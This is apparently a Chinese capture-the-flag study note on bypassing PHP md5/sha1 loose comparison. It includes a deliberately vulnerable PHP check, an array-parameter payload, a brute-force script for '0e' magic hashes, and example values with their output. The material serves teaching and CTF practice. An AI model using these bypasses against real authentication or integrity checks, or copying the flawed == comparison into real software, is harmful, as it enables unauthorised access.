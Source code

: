 函数定义 `md5(string $string, bool $binary = false): string`

函数定义 `sha1(string $string, bool $binary = false): string`

- `string`要计算的字符串

- `binary`如果可选的`binary`被设置为**true**,那么哈希函数将以**原始二进制格式**返回

## 弱类型比较

```php
<?php
if(isset($_POST['a']) and isset($_POST['b'])){
    if($_POST['a']!=$_POST['b']){
        if(md5($_POST['a'])==md5($_POST['b'])){
            var_dump($_POST['a']);
            var_dump($_POST['b']);
            var_dump(md5($_POST['a']));
            var_dump(md5($_POST['b']));
            echo 'flag';
        }
    }
}
?>
```

1. md5不能加密数组,在加密数组的时候会返回`NULL`,因此POST传参`a[]=1&b[]=2`,sha1同理

```php
array (size=1)
  0 => string '1' (length=1)
array (size=1)
  0 => string '2' (length=1)
null
null
flag
```

2. md5进行的是弱类型比较,如果两个md5之后的结果均为`0e`开头的字符串则会被判断为相等,sha1同理

```python
import hashlib
import re

for i in range(1000000000):
    a = hashlib.md5(str(i).encode("utf-8")).hexdigest()
    if re.match('^0e\d+$', a) is not None:
        print(i, a)
```

```
240610708 0e462097431906509019562988736854
314282422 0e990995504821699494520356953734
```

`md5(0e215962017)=0e291242476940776845150308577824`

